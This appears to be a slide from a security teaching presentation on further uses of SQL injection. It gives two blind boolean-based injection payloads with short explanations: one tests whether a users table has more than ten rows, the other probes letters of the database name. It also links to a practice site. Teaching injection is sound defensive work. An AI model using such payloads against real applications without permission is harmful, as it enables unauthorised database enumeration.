

# Other uses of SQL Injection
We can do many more operations
http://sqlzoo.net/hack/
' OR (SELECT COUNT(*) FROM users)>10 AND ''=‘
Checks to see if there are more than 10 users
' OR EXISTS(SELECT 1 FROM dual WHERE database() LIKE '%j%') AND ''=‘
Checks to see if there is a J in the name of the current database